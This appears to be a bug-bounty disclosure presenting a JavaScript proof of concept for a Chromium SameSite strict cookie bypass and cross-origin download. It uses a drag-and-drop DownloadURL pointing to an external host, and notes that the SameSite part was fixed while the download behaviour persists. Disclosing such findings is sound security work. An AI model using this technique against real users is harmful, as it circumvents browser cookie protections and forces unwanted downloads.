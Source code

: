 ```yaml
---
title: SameSite strict cookies bypass/cross-origin download (Awarded $1000)
---
```


Drag the `foo` text on to your desktop.
The file would contain `sec-fetch-site: 'none'`

```js
let link = document.createElement('a');
link.innerText = 'foo';
link.href = '#';
link.addEventListener('dragstart', onDragStart, false);
document.body.appendChild(link);

function onDragStart(e) {
  e.dataTransfer.setData(
    'DownloadURL',
    'application/octet-stream:demo:https://terjanq.me/xss.php?headers'
  );
  e.dataTransfer.effectAllowed = 'all';
}
```

This SameSite issue was fixed in <https://issues.chromium.org/40060358> but cross-origin download still works <https://www.youtube.com/watch?v=mqQjzx3HSUc>
